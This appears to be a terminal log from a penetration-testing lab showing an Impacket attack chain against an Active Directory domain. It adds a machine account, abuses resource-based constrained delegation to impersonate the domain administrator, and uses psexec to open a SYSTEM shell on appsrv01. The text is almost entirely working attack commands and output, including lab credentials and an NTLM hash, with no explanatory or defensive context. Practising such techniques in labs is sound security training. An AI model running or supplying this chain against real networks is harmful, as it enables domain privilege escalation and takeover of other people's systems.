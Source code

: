 ```bash
impacket-addcomputer -method SAMR -computer-name secret$ -dc-ip 192.168.215.70 -dc-host prod.corp1.com prod.corp1.com/dave:lab
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account secret$ with password svreOyjgFaZFLAenQgj0xHpRCwCJiQVT.

impacket-rbcd -delegate-to 'appsrv01$' -delegate-from 'secret$' -dc-ip 192.168.215.70 -action write prod.corp1.com/dave:lab
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] secret$ can now impersonate users on appsrv01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     secret$      (S-1-5-21-634106289-3621871093-708134407-3601)

impacket-getST -spn CIFS/appsrv01.prod.corp1.com -impersonate administrator -dc-ip 192.168.215.70 -force-forwardable -hashes :3CBF1E00EB03FD41AC65852CB5C60D93 'prod.corp1.com/secret3$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*]     Forcing the service ticket to be forwardable
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@CIFS_appsrv01.prod.corp1.com@PROD.CORP1.COM.ccache

export KRB5CCNAME=administrator@CIFS_appsrv01.prod.corp1.com@PROD.CORP1.COM.ccache

❯ impacket-psexec -k -no-pass -dc-ip 192.168.215.70 -target-ip 192.168.215.75 prod.corp1.com/administrator@appsrv01.prod.corp1.com
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 192.168.215.75.....
[*] Found writable share ADMIN$
[*] Uploading file VvKzGksL.exe
[*] Opening SVCManager on 192.168.215.75.....
[*] Creating service gbvY on 192.168.215.75.....
[*] Starting service gbvY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
appsrv01

```
